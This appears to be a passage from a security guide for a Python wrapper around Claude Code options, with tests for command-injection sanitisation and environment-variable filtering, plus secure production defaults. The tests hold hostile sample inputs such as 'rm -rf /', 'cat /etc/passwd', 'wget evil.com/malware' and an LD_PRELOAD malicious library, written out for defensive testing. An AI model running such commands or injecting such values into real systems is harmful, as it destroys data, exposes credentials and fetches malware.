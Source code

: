 ```python
```

## Testing Security

### Security Test Cases

Include security-focused test cases:

```python
def test_command_injection_prevention():
    """Test that command injection attempts are prevented"""
    malicious_inputs = [
        "sonnet; rm -rf /",
        "opus | cat /etc/passwd",
        "haiku && wget evil.com/malware",
        "sonnet`whoami`",
        "opus$(id)",
    ]
    
    for malicious_input in malicious_inputs:
        options = ClaudeCodeOptions(model=malicious_input)
        # Should be sanitized to a valid model name
        assert options.model in ['sonnet', 'opus', 'haiku']

def test_environment_variable_filtering():
    """Test that dangerous environment variables are filtered"""
    dangerous_env = {
        'LD_PRELOAD': '/tmp/malicious.so',
        'PATH': '/tmp/malicious:/usr/bin',
        'SHELL': '/bin/bash -c "rm -rf /"',
        'ANTHROPIC_API_KEY': 'sk-ant-api03-legitimate'
    }
    
    options = ClaudeCodeOptions(environment=dangerous_env)
    safe_env = options.get_process_env()
    
    # Only safe variables should be included
    assert 'LD_PRELOAD' not in safe_env
    assert 'ANTHROPIC_API_KEY' in safe_env
```

## Deployment Security

### Production Configuration

Use secure defaults for production:

```python
def create_secure_production_options(**overrides) -> ClaudeCodeOptions:
    """Create options optimized for secure production use"""
    defaults = {
        'verbose': False,  # Don't log sensitive info
        'allowed_tools': ['Read'],  # Minimal tool set
        'max_turns': 3,  # Limit conversation length
        'timeout': 60,  # Short timeout
        'max_retries': 1,  # Limit retry attempts
        'additional_args': []  # No additional args
    }
    defaults.update(overrides)
    return ClaudeCodeOptions(**defaults)
```
